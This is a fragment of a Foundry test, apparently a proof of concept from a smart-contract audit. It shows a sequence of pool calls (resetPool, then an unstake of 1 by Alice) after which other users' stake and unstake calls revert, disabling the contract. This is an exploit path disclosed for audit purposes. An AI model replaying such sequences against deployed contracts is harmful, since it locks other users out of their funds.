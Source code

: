```

    vm.stopPrank();



    vm.startPrank(bob);

    vault.depositAndApprove(addresses, amounts, poolAddress);
    pool.stake(depositToken,20000000, empty);

    vm.stopPrank();
           
    
    resetToken.push(depositToken);
    pool.resetPool(resetToken);



    vm.prank(alice);
    pool.unstake(depositToken,1);

   
    vm.warp(block.timestamp + 2);



    //Alice was able to disable the smart contract functionalities
    vm.startPrank(bob);

    vault.depositAndApprove(addresses, amounts, poolAddress);

    vm.expectRevert();
    pool.stake(depositToken,20000000, empty);

  
    vm.expectRevert();
    pool.unstake(depositToken,1);

    vm.stopPrank();


}
```

}

\`\`\`
